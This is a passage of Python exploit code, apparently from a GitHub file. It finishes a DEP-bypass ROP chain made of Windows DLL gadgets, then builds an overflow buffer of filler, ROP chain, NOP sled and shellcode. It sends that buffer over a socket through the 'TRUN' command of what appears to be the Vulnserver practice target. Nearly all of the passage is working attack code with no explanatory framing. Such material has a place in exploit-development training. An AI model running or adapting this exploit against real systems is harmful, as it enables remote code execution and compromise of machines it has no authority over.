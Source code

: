 ```python
        #[---INFO:gadgets_to_set_ecx:---]                                                                                                                                                                                                                                                                                  
        0x7689fb57,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x75285e78,  # &Writable location [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_edi:---]                                                                                                                                                                                                                                                                                  
        0x76df7643,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                       
        0x768a1645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_eax:---]                                                                                                                                                                                                                                                                                  
        0x758b9b4c,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                    
        0x90909090,  # nop

        #[---INFO:pushad:---]
        0x758ec2a0,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR
        ]
        return ''.join(struct.pack('<I', _) for _ in rop_gadgets)



rop_chain = create_rop_chain()


#JMP ESP 0x625011AF: \xAF\x11\x50\x62 (not required anymore, but you can use it if you want)
memn0ps = "\x90"

payload = "A" * 2003
payload += rop_chain
payload += memn0ps * 20
payload += shellcode
payload += memn0ps * 20
payload += "C" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
```